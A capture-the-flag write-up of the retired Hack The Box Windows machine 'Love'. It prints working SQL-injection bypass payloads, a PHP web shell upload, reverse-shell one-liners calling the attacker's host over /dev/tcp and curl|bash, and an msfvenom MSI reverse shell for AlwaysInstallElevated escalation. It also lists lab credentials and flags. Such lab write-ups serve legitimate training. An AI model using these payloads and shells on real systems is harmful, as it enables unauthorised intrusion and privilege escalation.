





# Love by k0rriban

## htbexplorer report
|  Name      |  IP Address   |  Operating System  |  Points  |  Rating  |  User Owns  |  Root Owns  |  Retired  |  Release Date  |  Retired Date  |  Free Lab  |  ID   | 
| :-: | :-: | :-: | :-: | :-: | :-: | :-: | :-: | :-: | :-: | :-: | :-: |
| Love  | 10.10.10.239  | Windows            | 20       | 4.4      | 10870       | 9679        | Yes       | 2021-05-01     | 2021-08-07     | No         | 344          |

## Summary
1. Scan ports -> 80,135,139,443,445,3306,5000,5040,5985,5986,7680
2. Searchsploit `Voting system` -> Vuln to SQLi and RCE
3. SQLi Login Byppass -> web admin cookie
4. RCE on `/admin/candidates_add.php` -> RCE and LFI
5. Upload `php-reverse-shell` -> User `phoebe` shell
6. Upload winPEAS -> `AlwaysInstallElevated` set to `1`
7. Upload reverse shell on format `.msi` -> `Nt_admin` user shell

## Enumeration
### OS
|  TTL      |  OS  |
| :-: | :-: |
| +- 64    | Linux |
| +- 128   | Windows |

As we can see in the code snippet below, the operating system is Windows.
```bash
❯ ping -c 1 10.10.10.239
PING 10.10.10.239 (10.10.10.239) 56(84) bytes of data.
64 bytes from 10.10.10.239: icmp_seq=1 ttl=127 time=118 ms
```

### Nmap port scan
First, we will run a `open ports` scan using nmap:
```bash
❯ sudo nmap -p- -sS --min-rate 5000 10.10.10.239 -v -oG Enum/allPorts
```
We can retrieve the results using the utility `extractPorts`:
```bash
❯ extractPorts Enum/allPorts

[*] Extracting information...

	[*] IP Address:  10.10.10.239 

	[*] Open ports:  80,135,139,443,445,3306,5000,5040,5985,5986,7680,47001,49664,49665,49666,49667,49668,49669,49670 

[*] Ports have been copied to clipboard...
```
Now, we will run a detailed scan on all the ports under 10000, as we consider the other ports are not interesting:
```bash
PORT     STATE SERVICE      VERSION
80/tcp   open  http         Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: Voting System using PHP
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
443/tcp  open  ssl/http     Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
| ssl-cert: Subject: commonName=staging.love.htb/organizationName=ValentineCorp/stateOrProvinceName=m/countryName=in
| Issuer: commonName=staging.love.htb/organizationName=ValentineCorp/stateOrProvinceName=m/countryName=in
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2021-01-18T14:00:16
| Not valid after:  2022-01-18T14:00:16
| MD5:   bff0 1add 5048 afc8 b3cf 7140 6e68 5ff6
|_SHA-1: 83ed 29c4 70f6 4036 a6f4 2d4d 4cf6 18a2 e9e4 96c2
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
| tls-alpn: 
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
|_http-title: 403 Forbidden
| http-methods: 
|_  Supported Methods: POST
445/tcp  open  microsoft-ds Windows 10 Pro 19042 microsoft-ds (workgroup: WORKGROUP)
3306/tcp open  mysql?
| fingerprint-strings: 
|   DNSVersionBindReqTCP, FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, Help, Kerberos, LDAPBindReq, LDAPSearchReq, LPDString, NULL, RPCCheck, RTSPRequest, SSLSessionReq, TerminalServerCookie: 
|_    Host '10.10.16.5' is not allowed to connect to this MariaDB server
5000/tcp open  http         Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: 403 Forbidden
5040/tcp open  unknown
5985/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
5986/tcp open  ssl/http     Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_ssl-date: 2022-06-01T21:52:01+00:00; +21m33s from scanner time.
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Not Found
| tls-alpn: 
|_  http/1.1
| ssl-cert: Subject: commonName=LOVE
| Subject Alternative Name: DNS:LOVE, DNS:Love
| Issuer: commonName=LOVE
| Public Key type: rsa
| Public Key bits: 4096
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2021-04-11T14:39:19
| Not valid after:  2024-04-10T14:39:19
| MD5:   d35a 2ba6 8ef4 7568 f99d d6f4 aaa2 03b5
|_SHA-1: 84ef d922 a70a 6d9d 82b8 5bb3 d04f 066b 12f8 6e73
|_http-server-header: Microsoft-HTTPAPI/2.0
7680/tcp open  pando-pub?
Service Info: Hosts: www.example.com, LOVE, www.love.htb; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-os-discovery: 
|   OS: Windows 10 Pro 19042 (Windows 10 Pro 6.3)
|   OS CPE: cpe:/o:microsoft:windows_10::-
|   Computer name: Love
|   NetBIOS computer name: LOVE\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2022-06-01T14:51:45-07:00
|_clock-skew: mean: 2h06m33s, deviation: 3h30m00s, median: 21m32s
| smb2-time: 
|   date: 2022-06-01T21:51:47
|_  start_date: N/A
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
```
From smb we discover the domain name is `love.htb`, the os is `Windows 10 Pro 19042`.
#### Final nmap report
| Port | Service | Version | Extra |
|:-:|:-:|:-:|:-:|
| 80/tcp | http | Apache httpd 2.4.46 4 | (Win6) OpenSSL/1.1.1j PHP/7.3.27 |
| 135/tcp | msrpc | Microsoft Windows RPC | - |
| 139/tcp | netbios-ssn | Microsoft Windows netbios-ssn | - |
| 443/tcp | ssl/http | Apache httpd 2.4.46 4 | (Win6) OpenSSL/1.1.1j PHP/7.3.27 |
| 445/tcp | microsoft-ds | Windows 10 Pro 19042 microsoft-ds | workgroup: WORKGROUP |
| 3306/tcp | mysql? | - | 10.10.16.5 Not allowed to connect |
| 5000/tcp | http | Apache httpd 2.4.46 | (Win6) OpenSSL/1.1.1j PHP/7.3.27 |
| 5040/tcp | unknown | - | - |
| 5985/tcp | http | Microsoft HTTPAPI httpd 2.0 | (Win6) OpenSSL/1.1.1j PHP/7.3.27 |
| 7680/tcp | pando-pub? | - | - |

### Web enumeration
The first port open is p80, which contain an http server. Let's enumerate its technologies.
#### Technology scan
```bash
❯ whatweb love.htb
http://love.htb [200 OK] Apache[2.4.46], Bootstrap, Cookies[PHPSESSID], Country[RESERVED][ZZ], HTML5, HTTPServer[Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27], IP[10.10.10.239], JQuery, OpenSSL[1.1.1j], PHP[7.3.27], PasswordField[password], Script, Title[Voting System using PHP], X-Powered-By[PHP/7.3.27], X-UA-Compatible[IE=edge]
```
This information, toguether with the wappalyzer output, brins us:
| Technology | Version | Detail |
|:-:|:-:|:-:|
| Apache | 2.4.46 | - |
| OpenSSL | 1.1.1j | - |
| PHP | 7.3.27 | - |
| DataTables | 1.10.16 | - |
| jQuery | 3.3.1 | - |
| Bootstrap | 3.3.7 | - |

#### Subdirectory fuzzing
Bruteforcing the subdirectories of the website, we find the following:
```bash
❯ sudo wfuzz -c -t 200 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt --hc 404 --hh 4388,298 "http://love.htb/FUZZ"
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://love.htb/FUZZ
Total requests: 220560

=====================================================================
ID           Response   Lines    Word       Chars       Payload           
=====================================================================

000000016:   301        9 L      30 W       330 Ch      "images"          
000000259:   301        9 L      30 W       329 Ch      "admin"           
000000203:   301        9 L      30 W       330 Ch      "Images"          
000000638:   301        9 L      30 W       332 Ch      "includes"        
000000519:   301        9 L      30 W       331 Ch      "plugins"         
000000902:   503        11 L     44 W       398 Ch      "examples"        
000001503:   301        9 L      30 W       328 Ch      "dist"            
000001819:   403        11 L     47 W       417 Ch      "licenses"        
000003673:   301        9 L      30 W       330 Ch      "IMAGES"          
000006098:   301        9 L      30 W       329 Ch      "Admin"           
000010316:   301        9 L      30 W       331 Ch      "Plugins"         
000032497:   301        9 L      30 W       332 Ch      "Includes"        
000054517:   301        9 L      30 W       328 Ch      "Dist"            
000095524:   403        11 L     47 W       417 Ch      "server-status"
```
From the above pages, we can see `plugins` and `admin`. Let's take a look at `/plugins`'s content:

We can see a list of plugins, let's check if any are vulnerable:
Nothing seems vulnerable. Next step is to enumerate all the `.php` pages we can access to:
```bash
❯ sudo wfuzz -c -t 200 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt --hc 404 --hh 4388,298 "http://love.htb/FUZZ.php"
passwd: 
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://love.htb/FUZZ.php
Total requests: 220560

=====================================================================
ID           Response   Lines    Word       Chars       Payload                    
=====================================================================

000000038:   302        0 L      0 W        0 Ch        "home"                     
000000053:   302        0 L      0 W        0 Ch        "login"                    
000000286:   302        0 L      0 W        0 Ch        "Home"                     
000000825:   302        0 L      0 W        0 Ch        "Login"                    
000001225:   302        0 L      0 W        0 Ch        "logout"                   
000001414:   302        0 L      0 W        0 Ch        "preview"                  
000012158:   302        0 L      0 W        0 Ch        "HOME"                     
000014665:   302        0 L      0 W        0 Ch        "Logout"                   
000017702:   302        0 L      0 W        0 Ch        "Preview"                  
000101629:   302        0 L      0 W        0 Ch        "LogIn"                    
000148853:   302        0 L      0 W        0 Ch        "LOGIN" 
```
All these pages redirect to `/index.php` so we need to be authorized to access them.

#### Manual enumeration
If we access to `/index.php` we can see:

Where we are asked to login with a `Voter ID` and a `Password`. On the other hand, we can access `/admin` to see:

Where we are asked to login with a `username` instead of a `Voter ID`. Since we want to gain access as an admin user, let's follow this path. If we search about the page `Voting system`, we obtain a series of vulns:
```bash
❯ searchsploit Voting System
---------------------------------------------------------- ---------------------------------
 Exploit Title                                            |  Path
---------------------------------------------------------- ---------------------------------
Online Voting System - Authentication Bypass              | php/webapps/43967.py
Online Voting System 1.0 - Authentication Bypass (SQLi)   | php/webapps/50075.txt
Online Voting System 1.0 - Remote Code Execution (Authent | php/webapps/50076.txt
Online Voting System 1.0 - SQLi (Authentication Bypass) + | php/webapps/50088.py
Online Voting System Project in PHP - 'username' Persiste | multiple/webapps/49159.txt
Voting System 1.0 - Authentication Bypass (SQLI)          | php/webapps/49843.txt
Voting System 1.0 - File Upload RCE (Authenticated Remote | php/webapps/49445.py
Voting System 1.0 - Remote Code Execution (Unauthenticate | php/webapps/49846.txt
Voting System 1.0 - Time based SQLI (Unauthenticated SQL  | php/webapps/49817.txt
WordPress Plugin Poll_ Survey_ Questionnaire and Voting s | php/webapps/50052.txt
---------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```
Since this is a controlled environment, in a vpn, we suppose the online solutions don't fit. This leaves us with the `Voting system 1.0` exploits. 
If we examine the exploit `49846.txt`, RCE, we observe the following payload:
```bash
########################### Payload ############################
POST /admin/candidates_add.php HTTP/1.1
Host: 192.168.1.1
Content-Length: 275
Cache-Control: max-age=0
Origin: http://192.168.1.1
Upgrade-Insecure-Requests: 1
DNT: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryrmynB2CmGO6vwFpO
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.1.1/admin/candidates.php
Accept-Encoding: gzip, deflate
Accept-Language: de-DE,de;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close

------WebKitFormBoundaryrmynB2CmGO6vwFpO
Content-Disposition: form-data; name="photo"; filename="shell.php"
Content-Type: application/octet-stream

<?php echo exec("whoami"); ?>

------WebKitFormBoundaryrmynB2CmGO6vwFpO
Content-Disposition: form-data; name="add"
```
As we can see, the target is `/admin/candidates_add.php` but we cannot access that path. As we are not able to upload files, this excludes RCE for now, let's focus on SQLi based login bypass. If we examine the file `49843.txt` we see the following payload:
```bash
########################### Payload ############################
POST /admin/login.php HTTP/1.1
Host: 192.168.1.1
DNT: 1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: de-DE,de;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: PHPSESSID=tliephrsj1d5ljhbvsbccnqmff
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 167

login=yea&password=admin&username=dsfgdf' UNION SELECT 1,2,"$2y$12$jRwyQyXnktvFrlryHNEhXOeKQYX7/5VK2ZdfB9f/GcJLuPahJWZ9K",4,5,6,7 from INFORMATION_SCHEMA.SCHEMATA;-- -
```
From where we can see that the target `/admin/login.php` fits with the form definition in the webpage `<form action="login.php" method="POST">`. So we can try injecting that payload and check the output:

We successfully bypassed the login with the exploit, obtaining access as admin. Now we can try to access `/admin/add_candidates.php` and check that exploit we found earlier:
We could access by web, let's try it by shell with the session cookie:
```bash
❯ curl http://love.htb/admin/candidates.php -H "Cookie: PHPSESSID=jlooianulcm32djvjven66jj76" -s | grep Neovic
            <span class="hidden-xs">Neovic Devierte</span>
                Neovic Devierte                <small>Member since Apr. 2018</small>
                    	<input type="text" class="form-control" id="firstname" name="firstname" value="Neovic">
        <p>Neovic Devierte</p>
```
Looking for the name of the admin user we obtained a successfull connection, so let's try that exploit again:
```bash
########################### Payload ############################
POST /admin/candidates_add.php HTTP/1.1
Host: love.htb
Content-Length: 275
Cache-Control: max-age=0
Origin: http://love.htb
Upgrade-Insecure-Requests: 1
DNT: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryrmynB2CmGO6vwFpO
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://love.htb/admin/candidates.php
Accept-Encoding: gzip, deflate
Accept-Language: de-DE,de;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close

------WebKitFormBoundaryrmynB2CmGO6vwFpO
Content-Disposition: form-data; name="photo"; filename="shell.php"
Content-Type: application/octet-stream

<?php echo exec("whoami"); ?>

------WebKitFormBoundaryrmynB2CmGO6vwFpO
Content-Disposition: form-data; name="add"
```
After executing this payload, as stated in:
> Your upload will be stored at /images/ and is also accessible without authentication.

We can access to `/images/shell.php` and check the resutls:

Success! Now we can write a web shell and upload it with the following payload:
```php
<?php echo exec($_GET['cmd']); ?>
```
And if we test this shell:
```bash
❯ curl "http://love.htb/images/shell.php?cmd=whoami"
love\phoebe
```
Did it. Let's try to establish a reverse shell:
```bash
❯ curl "http://love.htb/images/shell.php?cmd=curl%20http://10.10.16.5"
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN" "http://www.w3.org/TR/html4/strict.dtd">
<html>
<head>
<meta http-equiv="Content-Type" content="text/html; charset=utf-8">
<title>Directory listing for /</title>
</head>
<body>
<h1>Directory listing for /</h1>
<hr>
<ul>
<li><a href="Enum/">Enum/</a></li>
<li><a href="Exploits/">Exploits/</a></li>
<li><a href="img/">img/</a></li>
<li><a href="Love.md">Love.md</a></li>
<li><a href="Results/">Results/</a></li>
</ul>
<hr>
</body>
</html>
```
As we can see, while hosting a python server, we could access to the server, let's try a conventional reverse shell to port 3333:
```bash
❯ curl "http://love.htb/images/shell.php?cmd=bash%20-i%20>%26/dev/tcp/10.10.16.5/3333%200>%261"
❯ curl "http://love.htb/images/shell.php?cmd=bash%20-c%20'bash%20-i%20>%26/dev/tcp/10.10.16.5/3333%200>%261'"
```
So we can try it with the python server method:
```bashHTB#9826^(_
# Listener terminal
❯ echo "bash -i >& /dev/tcp/10.10.16.5/5555 0>&1" > Exploits/reverse_tcp
❯ sudo python3 -m http.server 80 &
[1] 379918
❯ nc -nlvp 3333
# Trigger terminal
curl "http://love.htb/images/shell.php?cmd=curl%20http://10.10.16.5/Exploits/reverse_tcp%20|%20bash"
```
But this exploit is not working, as we are trying to attack a windows machine. So we need to use the RCE exploit to spy the filesystem:
```bash
❯ curl "http://love.htb/images/shell.php?cmd=more%20..\includes\conn.php"
<?php
        $conn = new mysqli('localhost', 'phoebe', 'HTB#9826^(_', 'votesystem');

        if ($conn->connect_error) {
            die("Connection failed: " . $conn->connect_error);
        }
        
?>
```
After some time, we found the credentials `phoebe:HTB#9826^(_` for the database `votesystem`. Anyway, as we saw earlier, 10.10.16.5 is not allowed to establish connections to the 3306 port, so we need a user shell to access the database.

## User Shell
Now that we achieved RCE on the machine, we can use it to enumerate services we didn't have access from outside, for example, the server allocated at `port 5000`:
```bash
❯ curl "http://love.htb/images/shell.php?cmd=curl%20http://127.0.0.1:5000"
# ...
<div class="message-header">
  <p>Voting system Administration</p>
  <button class="delete" aria-label="delete"></button>
</div>
<div class="message-body">

<article class="message is-link">
  <div class="message-body">

<strong>Vote Admin Creds admin: @LoveIsInTheAir!!!!
</strong><br>  </div>
</article>

</div>
</article> 
# ...
```
From the victim's localhost, we can access to the http server on port 5000 and discover the creds `admin:@LoveIsInTheAir!!!!`. We could try to do the same with the mysql server, as we have credentials, but let's try to get an interactive shell if possible. With this credential we obtained the exact same access to the admin's webpage as we achieved before, but now we know its password.

If we use the exploit from https://github.com/Dhayalanb/windows-php-reverse-shell, we can create a reverse shell on the machine as follows:
```bash
❯ git clone https://github.com/Dhayalanb/windows-php-reverse-shell
❯ cd windows-php-reverse-shell
❯ nvim Reverse\ Shell.php
```
Change the parameters `$ip` and `$port` to :
```php
$ip = 10.10.16.5 # Your ip address
$port = 3333 # The port u want to listen
```
Now, we just need to upload the file to the server through the `/admin/candidates_add.php` page and open it on `/images/revShell.php` which will run this code:
```bash
   1   │ <?php
   2   │ 
   3   │ header('Content-type: text/plain');
   4   │ $ip   = "10.10.16.5"; //change this 
   5   │ $port = "3333"; //change this
   6   │ $payload = # TooLongToPaste
   7   │ $evalCode = gzinflate(base64_decode($payload));
   8   │ $evalArguments = " ".$port." ".$ip;
   9   │ $tmpdir =".";
  10   │ chdir($tmpdir);
  11   │ $res .= "Using dir : ".$tmpdir;
  12   │ $filename = "D3fa1t_shell.exe";
  13   │ $file = fopen($filename, 'wb');
  14   │ fwrite($file, $evalCode);
  15   │ fclose($file);
  16   │ $path = $filename;
  17   │ $cmd = $path.$evalArguments;
  18   │ $res .= "\n\nExecuting : ".$cmd."\n";
  19   │ echo $res;
  20   │ $output = system($cmd);
  21   │                         
  22   │ ?>
```
While executing, `$tmpdir` was set to `C:\\windows\tmp` and didn't work, if we change it to `.`, then it works fine. In another terminal, listening to port 3333, we obtained a reverse shell as `phoebe` user.
```bash
❯ nc -nlvp 3333
Connection from 10.10.10.239:63388
b374k shell : connected

Microsoft Windows [Version 10.0.19042.867]
(c) 2020 Microsoft Corporation. All rights reserved.

C:\xampp\htdocs\omrs\images>whoami
whoami
love\phoebe

C:\xampp\htdocs\omrs\images>
```

## Privilege escalation
Now that we have a user shell, we can try to escalate our privileges to root. To do so, we can start by uploading the file `winPEASx86_ofs.exe` and enumerating the privesc vulnerabilities:
```powershell
C:\Users\Phoebe\Desktop>curl http://10.10.16.5/winPEASx86_ofs.exe > privesc.exe
curl http://10.10.16.5/winPEASx86_ofs.exe > privesc.exe
```
To do so, we used a python http server and we can now run the script as:
```powershell
C:\Users\Phoebe\Desktop>.\privesc.exe
```
In its output we must pay attention to:
- Firewall enabled: `Only domain`
- Access to apache logs: `Yes`
- Access to PS logs: `Yes`
- `Phoebe` user information:
    ```powershell
    C:\Users\Phoebe\Desktop>net user Phoebe
    net user Phoebe
    User name                    Phoebe
    Full Name                    Phoebe
    Comment                      Workstation Power User
    User comment               
    Country/region code          000 (System Default)
    Account active               Yes
    Account expires              Never

    Password last set            4/12/2021 12:54:30 PM
    Password expires             Never
    Password changeable          4/12/2021 12:54:30 PM
    Password required            Yes
    User may change password     Yes

    Workstations allowed         All
    Logon script                 
    User profile                 
    Home directory               
    Last logon                   6/1/2022 1:31:19 PM

    Logon hours allowed          All

    Local Group Memberships      *Remote Management Use*Users                
    Global Group memberships     *None                 
    The command completed successfully.
    ```
  - As we can see, the user is not member of any privileged group.
- AV: `None`
- Permission to start/stop these processes:
  ```powershell
    RmSvc: GenericExecute (Start/Stop)
    wcncsvc: GenericExecute (Start/Stop)
    BcastDVRUserService_3e7d4: GenericExecute (Start/Stop)
    ConsentUxUserSvc_3e7d4: GenericExecute (Start/Stop)
    CredentialEnrollmentManagerUserSvc_3e7d4: GenericExecute (Start/Stop)
    DeviceAssociationBrokerSvc_3e7d4: GenericExecute (Start/Stop)
    DevicePickerUserSvc_3e7d4: GenericExecute (Start/Stop)
    DevicesFlowUserSvc_3e7d4: GenericExecute (Start/Stop)
    PimIndexMaintenanceSvc_3e7d4: GenericExecute (Start/Stop)
    PrintWorkflowUserSvc_3e7d4: GenericExecute (Start/Stop)
    UdkUserSvc_3e7d4: GenericExecute (Start/Stop)
    UnistoreSvc_3e7d4: GenericExecute (Start/Stop)
    UserDataSvc_3e7d4: GenericExecute (Start/Stop)
    WpnUserService_3e7d4: GenericExecute (Start/Stop)
  ```
- Users: `Phoebe` and `Administrator`
- Token privileges for `Phoebe`: `SeChangeNotifyPrivilege: SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED`
- UAC Status:
  ```powershell
   ConsentPromptBehaviorAdmin: 0 - No prompting
   EnableLUA: 1
   LocalAccountTokenFilterPolicy: 1
   FilterAdministratorToken: 0
       [*] LocalAccountTokenFilterPolicy set to 1.
       [+] Any local account can be used for lateral movement.
  ```
- AlwaysInstallElevated: `Active`
  ```powershell
  AlwaysInstallElevated set to 1 in HKLM!
  AlwaysInstallElevated set to 1 in HKCU!
  ```

We found the vulnerability we were looking for. When a windows system has `AlwaysInstallElevated` set to 1, we can go to https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#alwaysinstallelevated and exploit this vulnerability as it is explained there. First, we need to know the architecture of the machine:
```powershell
C:\Users\Phoebe\Desktop>wmic os get OSArchitecture
wmic os get OSArchitecture
OSArchitecture  
64-bit  
```
Now that we know it is a x64 system, we can use msfvenom to create an `.msi` exectuble to grant us a reverse shell as `admin` user:
```powershell
❯ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.16.5 LPORT=4444 --platform windows -a x64 -f msi -o reverse_tcp.msi
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of msi file: 159744 bytes
Saved as: reverse_tcp.msi
❯ ls
 windows-php-reverse-shell   reverse_tcp   reverse_tcp.msi
```
Now we can use the python http server to upload the msi and install it in the machine:
```powershell
C:\Users\Phoebe\Desktop>curl http://10.10.16.5/reverse_tcp.msi > reverse_tcp.msi
curl http://10.10.16.5/reverse_tcp.msi > reverse_tcp.msi
C:\Users\Phoebe\Desktop>msiexec /quiet /qn /i reverse_tcp.msi
msiexec /quiet /qn /i reverse_tcp.msi
```
While in the terminal listening to port `4444`:
```bash
❯ nc -nlvp 4444
Connection from 10.10.10.239:63401
Microsoft Windows [Version 10.0.19042.867]
(c) 2020 Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>whoami
whoami
nt authority\system

C:\WINDOWS\system32>
```
So we successfully obtained an administrator shell.

## Machine flag
| Type | Flag | Blood | Date |
| :-: | :-: | :-: | :-: |
| User | 853e525784b7a277b163f13abe1a0040 | No | 02-06-2022|
| Root | 13718a5fc2ce22263cf340cd53f6afd3 | No | 02-06-2022|

## References
- https://github.com/Dhayalanb/windows-php-reverse-shell
- https://ridicurious.com/2018/10/17/4-ways-to-find-os-architecture-using-powershell-32-or-64-bit/
- https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#alwaysinstallelevated